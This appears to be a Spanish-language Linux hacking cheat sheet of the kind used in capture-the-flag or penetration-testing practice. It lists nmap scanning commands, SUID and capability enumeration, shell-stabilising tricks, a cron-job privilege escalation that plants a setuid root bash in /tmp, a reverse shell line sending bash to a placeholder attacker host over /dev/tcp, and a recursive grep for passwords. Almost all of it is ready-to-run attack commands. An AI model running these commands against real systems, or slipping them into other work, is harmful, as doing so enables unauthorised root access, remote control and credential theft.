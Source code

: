 <h1 style="text-align:center;font-size:40px;">LINUX HACKING</h1>


## Dockers

[Kali](https://hub.docker.com/r/leplusorg/kali)
[Kali XFCE](https://hub.docker.com/r/kasmweb/core-kali-rolling)

## Y

### nmap

```sh
nmap 192.168.1.0/24 -sn # escanear red
nmap 192.168.1.X -O # ver informacion del sistema operativo
nmap 192.168.1.X -sV # ver versiones
nmap 192.168.1.X --script vuln # escanear vulnerabilidades
nmap -v -p- --min-rate 5000 -sV -sC X
sudo nmap -n -PN -sS -sC -sV -T5 -p- 192.168.1.X
```

> -v : Increase the verbosity level (basically output more info)
> 
> -p- : This flag scans for all TCP ports ranging from 0-65535
> 
> -sV : Attempts to determine the version of the service running on a port
> 
> -sC : Scan with default NSE scripts
> 
> --min-rate : This is used to specify the minimum number of packets Nmap should send per second; it speeds up the scan as the number goes higher

Escaneo basico:

```sh
nmap -A -T4 scanme.nmap.org
```

### LINUX REMOTO

#### Escalar

- [gtfobins](https://gtfobins.github.io)
- [hacktricks](book.hacktricks.xyz)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master)

> Ver los permisos de ejecucion
- `find / -perm -4000 -user root 2>/dev/null | xargs ls -l`
- `find / -group {GROUP} 2>/dev/null`
- `getcap -r / 2>/dev/null`


> enviar netcat de un proceso en cron como root

#### FULL TTY

```sh
python -c 'import pty;pty.spawn("/bin/bash")' # python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl + Z para segundo plano
stty raw -echo;fg;ls; export SHELL=/bin/bash;export TERM=xterm-256color # traer tarea
```

```sh
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

##### Crontab

```sh
#1
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```sh
/tmp/rootbash -p
```

```sh
#2
"bash -i >& /dev/tcp/{ATACANTE}/4444 0>&1 "
```

#### Passwords

```sh
cat * | grep -i passw*
```
